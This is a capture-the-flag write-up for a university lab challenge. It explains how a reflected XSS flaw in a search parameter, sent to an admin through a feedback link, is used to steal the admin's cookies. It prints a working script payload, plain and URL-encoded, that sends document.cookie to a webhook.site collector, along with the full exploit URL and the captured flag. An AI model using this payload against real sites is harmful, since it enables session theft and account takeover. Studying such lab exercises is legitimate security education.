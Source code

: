 # Challenge `My favourite cookies` Writeup

- Vulnerability: 
  - XSS attack
- Where:
  - Feedback link input
- Impact:
  - allows to steal remote user's cookie

## Analyzing the server

This challenges consists in grabbing the admins' cookies.
From the previous challenge, we know that the server is vulnerable to XSS attacks.
The feedback feature allows us to submit a link that the admin will click on.

## Exploit

Knowing that the admin will click on the link, it's possible to take advantage of the search bar action 
`?search=` to send a malicious payload that will reveal the cookies on his browser and then send them
to us.
Start by creating a website on [Webhook](https://webhook.site/) which will receive the remote requests.
Then, get the link to the website and create the following payload:
`<script>location="https://webhook.site/your-unique-id/"+document.cookie</script>`.
Enconde the payload to ensure that it will be correctly interpreted:
`%3Cscript%3Elocation%3D%22https%3A%2F%2Fwebhook.site%2Fyour-unique-id%2F%22%2Bdocument.cookie%3C%2Fscript%3E`
Finally, append it to the search bar action `?search=` and submit it to the admin.
`http://mustard.stt.rnl.tecnico.ulisboa.pt:22251/?search=%3Cscript%3Elocation%3D%22https%3A%2F%2Fwebhook.site%2Fyour-unique-id%2F%22%2Bdocument.cookie%3C%2Fscript%3E`
In the webhook site, you will see a GET request with the cookies in the URL
`https://webhook.site/your-unique-id/SECRET=SSof%7BThis_is_my_secret%7D` revealing the flag
`SSof{This_is_my_secret}`.

## Implementation

No script needed.